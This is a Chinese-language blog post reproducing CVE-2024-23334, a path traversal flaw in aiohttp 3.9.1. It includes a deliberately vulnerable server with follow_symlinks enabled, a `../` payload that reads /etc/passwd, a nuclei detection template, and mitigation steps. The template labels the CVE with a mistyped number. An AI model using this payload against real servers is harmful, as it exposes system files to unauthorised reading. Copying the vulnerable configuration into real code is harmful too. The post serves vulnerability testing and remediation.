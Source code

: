 ```yaml
---
title: "Aiohttp目录穿越(CVE-2024-23334)复现"
date: 2024-02-28T10:22:00+08:00
draft: false
categories:
- 漏洞复现
tags:
- 漏洞复现
---
```


# 漏洞详情

aiohttp是一个用于asyncio和Python的异步HTTP客户端/服务器框架。当使用aiohttp作为web服务器并配置静态路由时，有必要指定静态文件的根路径。此外，选项`follow_symlinks`可用于确定是否遵循静态根目录之外的符号链接。当`follow_symlinks`设置为`True`时，不需要验证读取文件是否在根目录中。这可能导致目录遍历漏洞，导致未经授权访问系统上的任意文件，即使不存在符号链接。

# 环境搭建与复现

Linux新建static目录和test.py文件，存在漏洞的代码：

```python
from aiohttp import web

async def index(request):
    return web.Response(text="Hello, World!")

app = web.Application()
app.router.add_routes([
    web.static("/static", "static/", follow_symlinks=True),
])
app.router.add_get('/', index)

if __name__ == '__main__':
    web.run_app(app)
```

安装aiohttp3.9.1:`pip3 install aiohttp==3.9.1`

![](https://s2.loli.net/2024/02/28/ygTjnaHA9oZLk1N.png)

payload:`/static/../../../../../etc/passwd`，需要针对`../`进行模糊测试

![](https://s2.loli.net/2024/02/28/ezJBSYLDIE15qpb.png)

nuclei-template:

```yaml
id: aiohttp-lfi

info:
  name: aiohttp-lfi
  author: dukodvco
  severity: medium
  description: CVE-2024-33334
  reference:
    - https://github.com/vulhub/vulhub/pull/501
  tags: aiohttp

http:
  - raw:
      - |+
        GET /static/../../../../../etc/passwd HTTP/1.1
        Host: {{Hostname}}
        Accept-Encoding: gzip, deflate
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

    matchers:
      - type: regex
        part: body
        regex:
          - 'root:.*?:[0-9]*:[0-9]*:'
      
      - type: status
        status:
          - 200
```

# 漏洞修复

禁用`follow_symlinks`；
可使用反向代理缓解措施；
升级版本，3.9.2版修复了此问题。